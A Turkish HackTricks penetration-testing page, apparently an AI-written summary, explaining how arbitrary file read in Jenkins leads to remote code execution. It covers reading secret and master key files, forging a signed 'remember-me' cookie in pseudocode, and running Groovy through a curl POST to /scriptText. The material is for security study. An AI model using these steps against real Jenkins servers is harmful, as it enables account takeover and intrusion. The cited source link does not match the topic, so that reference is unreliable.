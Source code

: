 # Jenkins Rastgele Dosya Okuma ile RCE'ye "Beni Hatırla" Üzerinden

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu blog yazısında, Jenkins'teki Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulabilirsiniz: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir rastgele çerezin kötüye kullanıldığı ve RCE elde etmek için yerel dosya okuma ile istismar edildiği kısmın AI tarafından oluşturulmuş bir özetidir, kendi özetimi oluşturacak zamanım olana kadar:

### Saldırı Ön Koşulları

* **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
* **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
* **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı İstismar Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgilerini Alma**

* Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişin:
* **Kullanıcı Adı**
* **Kullanıcı tohum**
* **Zaman damgası**
* **Şifre karması**

**Gizli Anahtar Çıkartma**

* Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
* **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
* **Anahtar:** `$JENKINS_HOME/secrets/master.key`
* **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

*   **Token Süre Sonu Zamanını Hesaplayın:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Mevcut zamana bir saat ekler
```
{% endcode %}
*   **Token için Verileri Birleştirin:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Anahtarının Şifre Çözümü**

*   **MAC Anahtar Dosyasını Şifre Çözün:**

```javascript
key = toAes128Key(masterKey)  // Anahtarı AES128 anahtar formatına dönüştür
decrypted = AES.decrypt(macFile, key)  // .mac dosyasını şifre çöz
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

*   **HMAC SHA256 Hesaplayın:**

```javascript
mac = HmacSHA256(token, macKey)  // Token ve MAC anahtarını kullanarak HMAC hesapla
tokenSignature = bytesToHexString(mac)  // MAC'i onaltılık dizeye dönüştür
```

**Çerez Kodlama**

*   **Son Çerezi Oluşturun:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Çerez verilerini Base64 ile kodla
```
{% endcode %}

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulaması**

* **CSRF ve Oturum Tokenlerini Alın:**
* `Jenkins-Crumb` almak için `/crumbIssuer/api/json` adresine bir istek yapın.
* Yanıttan `JSESSIONID`'yi yakalayın, bu `remember-me` çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

*   **Groovy Script ile POST İsteği Gönderin:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yaparak rastgele kodu güvenli bir şekilde çalıştırmanın nasıl yapılacağını göstermektedir.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
